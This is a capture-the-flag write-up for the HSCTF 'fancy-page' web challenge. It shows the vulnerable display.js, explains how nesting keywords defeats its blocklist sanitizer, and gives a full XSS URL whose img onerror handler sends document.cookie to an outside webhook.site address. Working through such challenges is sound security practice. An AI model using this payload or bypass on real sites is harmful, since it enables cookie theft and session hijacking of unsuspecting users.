

# fancy-page
> http://fancy-page.hsctf.com

## About the Challenge
We have been given a source code (You can download the source code [here](fancy-page.zip)). Inside the source code there is a JavaScript file called `display.js`. Here is the content of the file

```js
import { default as Arg } from "https://cdn.jsdelivr.net/npm/@vunamhung/arg.js@1.4.0/+esm";

function sanitize(content) {
	return content.replace(/script|on|iframe|object|embed|cookie/gi, "");
}

let title = document.getElementById("title");
let content = document.getElementById("content");

function display() {
	title.textContent = Arg("title");
	document.title = Arg("title");

	let sanitized = sanitize(Arg("content"));
	content.innerHTML = sanitized;

	document.body.style.backgroundColor = Arg("background_color");
	document.body.style.color = Arg("color");
	document.body.style.fontFamily = Arg("font");
	content.style.fontSize = Arg("font_size") + "px";
}

display();
```

As you can see, this is a XSS challenge, but there is some sanitization applied to certain strings, such as `script`, `on`, `iframe`, `object`, `embed`, and `cookie`

## How to Solve?
To bypass the sanitization im using `string within a string`. For example

```
cookie => ""
coocookiekie => "cookie"
```

And here is the payload that I used to solve this chall

```
http://fancy-page.hsctf.com/display.html?title=test&content=test%3Cimg/src/oonnerror%3Dlocatioonn.replace(%27https://webhook.site/bbd37165-3069-4602-8ffe-56a1c7e6a8a1%2F%3F%27%2Bdocument.coocookiekie)%3E&background_color=%23ffffff&color=%23000000&font=Helvetica&font_size=16
```

And then check webhook to obtain the flag



```
flag{filter_fail}
```